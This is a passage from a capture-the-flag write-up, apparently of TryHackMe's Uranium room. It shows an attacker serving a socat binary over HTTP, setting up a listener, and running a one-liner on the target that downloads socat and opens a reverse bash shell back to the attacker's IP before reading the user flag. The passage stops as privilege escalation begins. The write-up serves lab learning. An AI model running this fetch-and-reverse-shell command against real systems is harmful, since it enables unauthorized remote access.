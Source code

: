 ```
    inet 10.10.180.31/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2189sec preferred_lft 2189sec
    inet6 fe80::be:8fff:fe48:ed61/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm user `hakanbey`!

**Stable shell via `socat`:**
```shell
┌[siunam♥earth]-(/opt/static-binaries/binaries/linux/x86_64)-[2023.02.17|15:31:42(HKT)]-[git://master ✗]
└> python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.17|15:31:27(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/17 15:32:28 socat[30122] N opening character device "/dev/pts/2" for reading and writing
2023/02/17 15:32:28 socat[30122] N listening on AF=2 0.0.0.0:4444
```

```shell
hakanbey@uranium:~$ wget http://10.8.70.81:8000/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.8.70.81:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/Uranium-CTF)-[2023.02.17|15:31:27(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2023/02/17 15:32:28 socat[30122] N opening character device "/dev/pts/2" for reading and writing
2023/02/17 15:32:28 socat[30122] N listening on AF=2 0.0.0.0:4444
                                                                 2023/02/17 15:32:55 socat[30122] N accepting connection from AF=2 10.10.180.31:40346 on AF=2 10.8.70.81:4444
                                                                  2023/02/17 15:32:55 socat[30122] N starting data transfer loop with FDs [5,5] and [7,7]
                                              hakanbey@uranium:~$ 
hakanbey@uranium:~$ export TERM=xterm-256color
hakanbey@uranium:~$ stty rows 22 columns 107
hakanbey@uranium:~$ ^C
hakanbey@uranium:~$ 
```

**user1.txt:**
```shell
hakanbey@uranium:~$ cat /home/hakanbey/user_1.txt
thm{Redacted}
```

## Privilege Escalation

### hakanbey to kral4

Let's do some basic enumerations!
